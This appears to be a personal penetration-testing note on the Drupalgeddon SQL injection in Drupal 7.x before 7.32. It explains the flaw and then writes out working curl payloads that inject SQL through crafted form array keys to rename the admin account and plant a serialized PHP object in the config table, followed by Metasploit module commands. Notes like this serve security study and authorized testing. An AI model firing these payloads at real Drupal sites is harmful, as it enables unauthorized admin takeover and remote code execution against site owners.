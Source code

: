 ```yaml
---
tags:
  - attack
  - web
date: 2023-09-1
---
```

- Critical unauthenticated SQLi.
- Affects `Drupal 7.x < 7.32`
# Vulnerability

- Affects Drupal's `Database Abstraction Layer` - in how form fields and arrays were sanitized in `db_query()` operations.
- Attacker inject malicious SQL into unsanitized form elements via crafted parameters:
	- `name[0;INSERT SQL HERE]=value`
- Access used to:
	- modify admin user password or name
	- inject PHP functions into Drupal's variable system (e.g. `drupal_eval`).
	- execute arbitrary PHP code via Drupal's callback mechanism.
# Exploitation Process

- Send POST request with malicious array key.
- Use SQLi to:
	- reset the `uid=1` (admin) user.
	- inject settings that trigger PHP evaluation.
- Achieve code execution or admin login.
# Exploitation

- Rest admin user's name via SQLi:
	- `curl -d "name[0;update users set name='hacked' where uid=1;#]=1&name[0]=test" http://target/?q=node&destination=node`
- Inject PHP execution into Drupal config:
	- `curl -d "name[0;INSERT INTO variable (name, value) VALUES ('shell', 'O:8:\"stdClass\":1:{s:4:\"test\";s:6:\"phpinfo\";}');#]=1" http://target/?q=node`
- Use [[Metasploit]]:
	- `use exploit/unix/webapp/drupal_drupalgeddon`
	- `set RHOSTS http://target`
	- `run`

